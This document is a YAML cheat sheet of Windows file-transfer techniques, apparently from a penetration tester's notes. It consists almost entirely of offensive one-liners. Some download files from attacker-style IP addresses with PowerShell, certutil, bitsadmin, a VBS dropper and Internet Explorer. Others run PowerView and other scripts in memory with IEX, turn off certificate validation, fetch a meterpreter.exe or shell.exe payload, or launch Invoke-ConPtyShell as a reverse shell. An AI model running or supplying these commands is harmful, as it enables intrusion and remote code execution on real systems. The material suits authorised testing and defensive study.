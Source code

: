 ```yaml
---
functions:
  file-transfer:
    - description: Techniques allow you to download remote files onto windows systems
      code: |
        
        +++++++++POWERSHELL+++++++++
        powershell -c iwr -Uri http://192.168.119.149:8000/task.xml -OutFile task.xml -usebasicparsing

        powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')"

        Download and run IN MEM ONLY:
        IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.119.149/Invoke-TM.ps1'))
        IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.119.149:8000/PowerView.ps1'))
		
		Ignore Cert Trusts
		powershell -c "[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};(New-Object System.Net.WebClient).DownloadString('https://192.168.119.149:8000/Invoke-TM.ps1')"

        +++++++++certutil+++++++++
        certutil.exe -urlcache -f http://192.168.119.149:8000/task.xml task.xml
        certutil.exe -urlcache -f http://192.168.119.149:8000/Invoke-ConPtyShell.ps1 Invoke-ConPtyShell.ps1; Invoke-ConPtyShell 192.168.119.149 9999


        +++++++++PS BITSADMIN+++++++++
        Import-Module BitsTransfer
        Start-BitsTransfer -Source $url -Destination $output
        #OR
        Start-BitsTransfer -Source $url -Destination $output -Asynchronous


        +++++++++CMD BITSADMIN+++++++++
        #does not work with pth

        Download:
        bitsadmin /create /download myjob
        bitsadmin /addfile myjob http://192.168.119.149/shell.exe c:\xampp\htdocs\shell.exe
        bitsadmin /resume myjob
        bitsadmin /reset
        bitsadmin /complete myjob


        +++++++++VBS+++++++++
        see wget.vbs

        Specific File [replace filenames]:
        echo Set o=CreateObject^("MSXML2.XMLHTTP"^):Set a=CreateObject^("ADODB.Stream"^):Set f=Createobject^("Scripting.FileSystemObject"^):o.open "GET", "http://<attacker ip>/meterpreter.exe", 0:o.send^(^):If o.Status=200 Then > "C:\temp\download.vbs" &echo a.Open:a.Type=1:a.Write o.ResponseBody:a.Position=0:If f.Fileexists^("C:\temp\meterpreter.exe"^) Then f.DeleteFile "C:\temp\meterpreter.exe" >> "C:\temp\download.vbs" &echo a.SaveToFile "C:\temp\meterpreter.exe" >>"C:\temp\download.vbs" &echo End if >>"C:\temp\download.vbs" &cscript //B "C:\temp\download.vbs" &del /F /Q "C:\temp\download.vbs"


        +++++++++IE+++++++++
        iexplorer.exe http://192.168.119.149:8000/1.bat
        iexplorer.exe http://192.168.119.149/task.xml


resources: |
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/wget-windows

---
```

